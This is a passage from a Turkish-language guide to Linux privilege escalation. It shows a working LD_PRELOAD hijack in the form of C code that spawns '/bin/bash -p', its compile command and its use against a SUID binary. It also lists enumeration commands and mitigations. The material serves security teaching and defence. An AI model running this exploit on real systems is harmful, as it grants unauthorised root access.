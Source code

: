        void _init() {
            unsetenv("LD_PRELOAD");
            system("/bin/bash -p");
        }
        ```
    2.  Bu dosya paylaşılan bir kütüphane olarak derlenir.
        ```bash
        gcc -fPIC -shared -o hijack.so hijack.c -nostartfiles
        ```
    3.  `LD_PRELOAD` değişkeni ayarlanarak SUID programı çalıştırılır.
        ```bash
        LD_PRELOAD=/tmp/hijack.so /path/to/suid_binary
        ```
    Bu teknik daha nadirdir ancak bulunduğunda çok güçlüdür.

---

## 🔍 Zafiyeti Tespit Etme (Genel Yöntemler)

*   **Manuel Kontroller:**
    *   **SUID/GUID:** `find / -perm -u=s -type f 2>/dev/null`
    *   **Sudo Yetkileri:** `sudo -l`
    *   **Cron Jobs:** `cat /etc/crontab`, `ls -l /etc/cron.d/`
    *   **Servisler:** `ls -l /etc/systemd/system`, `ls -l /etc/init.d/`
    *   **String/Strace Analizi:** `strings` ve `strace` komutları ile şüpheli dosyaları analiz et.

*   **Otomatik Araçlar:**
    `linpeas.sh`, `LinEnum.sh` gibi scriptler bu ve benzeri birçok zafiyeti otomatik olarak tarar ve size renkli çıktılarla raporlar. Yetki yükseltme sürecinde bu araçları kullanmak zaman kazandırır.

---

## 🛡️ Korunma Yolları (Mitigation)

1.  **Her Zaman Mutlak Yol Kullanın:** Ayrıcalıklı (privileged) script veya programlar yazan geliştiriciler ve sistem yöneticileri, `ls` yerine `/bin/ls`, `tar` yerine `/bin/tar` gibi komutların tam yollarını kullanmalıdır. Bu, PATH manipülasyonunu imkansız hale getirir.
2.  **Güvenli PATH Tanımlayın:** Script'lerin en başında, dışarıdan gelen `PATH` değişkenine güvenmek yerine, `PATH=/usr/bin:/bin:/usr/sbin:/sbin` gibi güvenli ve kısıtlı bir `PATH` değişkeni yeniden tanımlanmalıdır.
3.  **En Az Yetki Prensibi:** Bir programa gerçekten gerekmiyorsa asla SUID biti verilmemelidir.
4.  **Güvenli Kodlama Pratikleri:** `sudoers` dosyasında `secure_path` direktifinin ayarlı olduğundan emin olun. Bu, `sudo` ile çalıştırılan komutlar için güvenli bir PATH tanımlar.
